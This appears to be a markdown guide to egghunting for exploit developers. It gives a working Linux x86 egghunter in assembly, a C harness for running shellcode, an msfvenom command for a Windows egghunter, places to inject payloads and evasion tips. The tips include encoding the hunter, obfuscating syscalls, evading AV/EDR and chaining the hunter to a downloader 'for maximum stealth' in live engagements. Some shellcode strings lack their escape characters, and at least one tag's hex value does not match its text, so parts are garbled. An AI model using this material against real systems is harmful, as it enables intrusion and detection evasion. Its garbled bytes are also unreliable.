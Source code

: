 # 🥚 Egghunting: A Definitive Guide for Hackers and Exploit Developers

---

## 📌 What is Egghunting?

**Egghunting** is a technique where a small, compact shellcode scans memory looking for a unique "egg" signature — a tag that marks the location of a **larger, full-featured payload**. Once found, the egghunter jumps to that memory region and executes it.

### 🧠 Why Use Egghunters?

- You can’t fit full shellcode in a limited buffer (e.g., 60-byte SEH exploit).
- You can inject your full payload somewhere else (e.g., env var, POST body).
- You need to **bypass memory layout uncertainty** (ASLR, heap spray).
- It enables **multi-stage payloads**, increasing stealth and flexibility.

---

## 🥚 The "Egg"

The egg is:
- 8 bytes long
- Usually composed of **two identical 4-byte sequences**
- Placed directly **before** the full payload

Example:  
```
Egg = "w00tw00t"
```

You'd prepend this to your payload like:
```
char shellcode[] = "w00tw00t" + [actual shellcode]
```

---

## 🏗 Egghunter Structure

1. **Compact code (~32–40 bytes)**
2. Loops through memory
3. Makes **readable memory** checks via system calls
4. Compares memory content to egg (e.g., `cmp [ecx], 0x74303077`)
5. If match found, jumps execution there

---

## ✍️ Writing an Egghunter: Linux x86 (access syscall)

Uses `int 0x80` with syscall 33 (access) to check memory validity.

```nasm
BITS 32
global _start

section .text
_start:
    xor ecx, ecx                    ; ECX = scanning pointer
next_page:
    or cx, 0xfff                    ; page align
    inc ecx                         ; step to next page
    push 0x21                       ; syscall number for access
    pop eax
    mov ebx, ecx
    int 0x80                        ; access(ECX, 0)
    cmp al, 0xf2                    ; AL == 0xf2 if access fails
    jne next_page
    mov eax, 0x74303077             ; 'w00t'
    mov edi, ecx
    scasd                           ; compare dword at [EDI] == 'w00t'
    jne next_page
    scasd                           ; compare next 4 bytes
    jne next_page
    jmp edi                         ; jump to shellcode
```

---

## 🔧 Testing the Egghunter (C Harness)

Inject both hunter and egg-tagged payload in the same process:

```c
char payload[] =
  "w00tw00t"
  "x31xc0x50x68..."  // real shellcode

char egghunter[] =
  "x31xc9x66x81xc9xffx0fx43..."; // assembled hunter

int main() {
  void (*exec_hunter)() = (void(*)())egghunter;
  exec_hunter();
}
```

---

## 🪟 Egghunters in Windows Exploits

Uses system calls like `NtAccessCheckAndAuditAlarm` to validate memory pages (instead of `access()`).

### Windows-compatible egghunter (from Metasploit):

```
msfvenom -p generic/egghunter -f c -e x86/shikata_ga_nai -b "x00"
```

### Integration in SEH exploits:

- Egghunter placed in SEH handler
- Full payload sprayed in heap/environment
- When exception triggers, SEH jumps to egghunter

---

## 🧪 Where to Inject the Full Payload

- Environment variables (e.g., set `EGG='w00tw00t[PAYLOAD]'`)
- POST data / HTTP headers (during buffer overflow)
- File contents (used in file format fuzzing)
- Shared memory segments
- Application config files

---

## 🧬 Advanced Techniques

### 🧭 Jmp-Call-Pop Eggloader (position-independent)
Used when you can’t rely on EIP/RIP directly.

```asm
jmp short call_shellcode
start:
    pop esi
    ; esi now points to "w00tw00t" + shellcode
    ...
call_shellcode:
    call start
    db "w00tw00t"
    db [SHELLCODE]
```

---

## 📦 Sample Shellcode Tags

| Tag        | Hex      | Comment                      |
|------------|----------|------------------------------|
| `w00tw00t` | `0x74303077` | Most common in research       |
| `b33fb33f` | `0x66333362` | Meme-friendly, less common    |
| `r3dTr3dT` | `0x54724433` | Custom red team tag           |
| `c0d3c0d3` | `0x64336430` | Hacker style                  |

Make sure tags are **non-null** and **not broken by badchars**.

---

## 🔍 Useful r2/GDB Notes for Testing

### View tag in memory

```
[0x00000000]> /w00t
[0x00000000]> px 32 @ hit_addr
```

### Set breakpoint in egghunter

```
gdb ./egghunter_test
b *0x08048000
r
```

---

## 🔐 Defensive Considerations

Egghunters are noisy:
- Constant memory access → AV/EDR triggers
- May cause segmentation faults during scanning
- Easy to signature based on syscall + loop

Use sparingly in real-world engagements, or pair with:
- Syscall obfuscation
- Memory probing throttles
- C2 stage encoding

---

## 📚 Additional Resources

- [Skape's original egghunter paper](https://www.exploit-db.com/docs/english/28476-egg-hunting.pdf)
- Metasploit payloads: `generic/egghunter`
- CTFs: Exploit Education, Vulnserver, OverTheWire

---

## 🧯 Tips & Tricks

- If exploit space is tight, encode egghunter with `x86/shikata_ga_nai`
- You can XOR the full shellcode + tag to avoid bad characters
- Use heap spraying or NOP sleds to improve tag reliability
- Always test under `strace` or `WinDbg` before live use
- Consider chaining egghunter → downloader → staged shellcode for maximum stealth

---


